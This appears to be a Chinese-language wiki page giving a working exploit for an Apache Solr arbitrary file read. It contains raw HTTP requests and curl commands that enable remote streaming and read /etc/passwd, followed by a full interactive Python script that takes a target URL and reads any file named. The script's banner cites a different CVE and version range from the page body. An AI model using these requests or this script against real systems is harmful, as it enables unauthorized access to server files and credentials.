 <languages   />

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
    Apache Solr <= 8.8.1

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
首先進入管理員頁面，獲取core的信息：

</div>
    http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
發送以下數據包

</div>
    POST /solr/ckan/config HTTP/1.1
    Host: xxx.xxx.xxx:8983
    Content-Length: 99
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://118.31.46.134:8983
    Content-Type: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    {"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
文件讀取
--------

</div>
    POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
    Host: xxx.xxx.xxx.xxx:8983
    Content-Length: 29
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Origin: http://118.31.46.134:8983
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    stream.url=file:///etc/passwd

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
curl請求爲：

</div>
    curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
    curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from lxml import etree
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
        print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
        print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
        try:
            response = requests.request("GET", url=core_url, timeout=10)
            core_name = list(json.loads(response.text)["status"])[0]
            print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
            return core_name
        except:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, core_name):
        vuln_url = target_url + "/solr/" + core_name + "/config"
        headers = {
            "Content-type":"application/json"
        }
        data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
            if "This" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_3(target_url, core_name, File_name):
        vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'stream.url=file://{}'.format(File_name)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            if "No such file or directory" in response.text:
                print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
            else:
                print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        core_name = POC_1(target_url)
        POC_2(target_url, core_name)
        while True:
            File_name = str(input("\033[35mFile >>> \033[0m"))
            POC_3(target_url, core_name, File_name)
